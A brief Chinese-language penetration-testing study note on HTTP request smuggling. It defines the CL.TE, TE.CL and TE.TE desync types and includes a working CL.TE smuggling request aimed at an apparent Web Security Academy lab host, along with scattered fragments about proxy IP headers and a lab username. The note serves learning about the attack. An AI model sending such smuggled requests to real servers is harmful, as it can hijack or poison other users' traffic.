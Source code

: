 HTTP请求的划分：
CL	Content-Length: xx	以字节为单位指定消息体的长度
TE	Transfer-Encoding: chunked	指定消息体使用分块编码。每个块包含以字节为单位的块大小（以十六进制表示），后跟换行符，后跟块内容。 消息以大小为零的块结束






CL.TE：前端服务器使用Content-Length头，后端服务器使用Transfer-Encoding头。

TE.CL：前端服务器使用Transfer-Encoding标头，后端服务器使用Content-Length标头。

TE.TE：前端和后端服务器都支持Transfer-Encoding标头，但是可以通过以某种方式模糊标头来诱导其中一个服务器不处理它

![请求夹带1](E:\渗透测试\WEB漏洞\请求夹带\请求夹带1.png)



```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```



X-iSviJC-Ip



x-forward-for: 主机ip，代理1，代理2

X-...-Ip:上一级代理的ip/客户端ip



wiener



